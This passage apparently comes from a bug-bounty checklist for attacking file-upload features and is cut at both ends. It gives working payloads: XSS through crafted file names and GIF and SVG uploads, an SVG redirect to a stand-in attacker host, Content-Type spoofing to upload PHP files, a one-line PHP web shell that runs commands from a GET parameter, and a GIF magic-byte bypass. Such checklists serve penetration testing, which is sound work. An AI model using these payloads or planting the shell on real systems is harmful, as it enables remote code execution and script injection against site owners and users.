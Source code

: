            - Using excel file
        - [ ]  XSS
            - Set file name `filename="svg onload=alert(document.domain)>"` , `filename="58832_300x300.jpg<svg onload=confirm()>"`
            - Upload using `.gif` file

            ```
            GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
            ```

            - Upload using `.svg` file

            ```xml
            <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
            ```

            ```xml
            <?xml version="1.0" standalone="no"?>
            <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

            <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
               <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
               <script type="text/javascript">
                  alert("HolyBugx XSS");
               </script>
            </svg>
            ```

        - [ ]  Open Redirect
            1. Upload using `.svg` file

            ```xml
            <code>
            <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
            <svg
            onload="window.location='https://attacker.com'"
            xmlns="http://www.w3.org/2000/svg">
            <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
            </svg>
            </code>
            ```

    - Content-ish Bypass
        - [ ]  Content-type validation
            - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream` 
            to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
        - [ ]  Content-Length validation
            - Small PHP Shell

            ```php
            (<?=`$_GET[x]`?>)
            ```

        - [ ]  Content Bypass Shell
            - If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )
